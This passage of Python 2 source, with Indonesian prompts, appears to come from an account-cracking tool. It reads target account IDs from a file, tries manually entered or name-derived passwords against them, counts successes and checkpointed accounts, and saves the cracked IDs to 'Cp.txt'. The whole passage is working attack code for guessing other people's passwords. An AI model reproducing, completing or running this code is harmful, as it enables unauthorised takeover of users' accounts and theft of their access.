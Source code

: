 					except (KeyError, IOError):
		                         tl = "*Private"
					except:pass
					print("\r\033[0;93m[Cp] "+(fl.get("id")+" \033[0;97m|\033[0;93m "+i+"\033[0;93m "+tl+" "))
					self.cp.append("%s | %s %s"%(fl.get("id"),i,tl))
					open("Cp.txt","a+").write(
						"%s | %s %s\n"%(fl.get("id"),i,tl))
					break
				else:continue
					
			self.ko+=1
			print "\r[Crack] %s/%s *Ok : %s - *Cp : %s"%(self.ko,len(self.fl),len(self.ada),len(self.cp)),;sys.stdout.flush()
		except:
			self.main(fl)
class crack2:
	def __init__(self):
		self.ada=[]
		self.cp=[]
		self.ko=0
		while True:
			print('──────────────────────────────────────────')
			f=raw_input("[?] Gunakan Pass Manual (y/t) : ")
			if f=="":continue
			elif f=="y":
				try:
					while True:
						try:
							self.apk= 'rozhak.json'
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print('[x] File Tidak Ada')
							menu()
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print('[x] File Tidak Ada')
					continue
				print('[•] Contoh Pass : sayang,anjing')
				self.pwlist()
				break
			elif f=="t":
				try:
					while True:
						try:
							self.apk= 'rozhak.json'
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print('[x] File Tidak Ada')
							menu()
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print('[x] File Tidak Valid')